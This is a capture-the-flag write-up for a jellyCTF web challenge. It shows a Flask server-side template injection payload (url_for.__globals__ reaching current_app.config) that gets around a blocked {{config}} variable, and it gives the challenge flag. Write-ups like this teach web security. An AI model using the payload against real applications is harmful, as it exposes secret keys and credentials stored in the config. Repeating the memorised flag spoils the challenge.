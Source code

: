 # bro_visited_his_site

**Difficulty**: Easy

**Points earned**: 343

**Description**:

> bro stored his secrets in the flask app config
> 
> note: this is not /app/flag.txt - that's bro_visited_his_site_2
> 
> 10 point hint: attack type
> 
> 20 point hint: writeup for similar problem
> 
> Author: arepi
> 
> https://bro-visited-his-site.jellyc.tf/

![bro_visited_his_site website input](./images/bro_visited_his_site_input.png "bro_visited_his_site input")

![bro_visited_his_site website output](./images/bro_visited_his_site_output.png "bro_visited_his_site output")

**Solution**: 

The website takes whatever's in the text box and outputs `[text]pilled [text]maxxer`. We can use double brackets to execute code as well. For example, when I input `{{7*7}}` I get `49pilled 49maxxer`. However I can't access the app config by inputting `{{config}}` because of these lines in the source code:

```python
    return render_template_string(f'''
        {{% set config="friend" %}}
        {{% set self="visit" %}}
        <p>
            {word}pilled {word}maxxer
        </p>
```

I unlocked hint 2 and got a link to this write up: https://ctftime.org/writeup/10895

To access the flag, we can either put `{{url_for.__globals__['current_app'].config['FLAG']}}` into the text box or `https://bro-visited-his-site.jellyc.tf/response?word={{url_for.__globals__['current_app'].config['FLAG']}}` into the address bar.

![bro_visited_his_site solution](./images/bro_visited_his_site_sol.png "bro_visited_his_site solution")

**Flag**: `jellyCTF{f1agp1ll3d_t3mpl4te_1nj3ct10nmaxx3r}`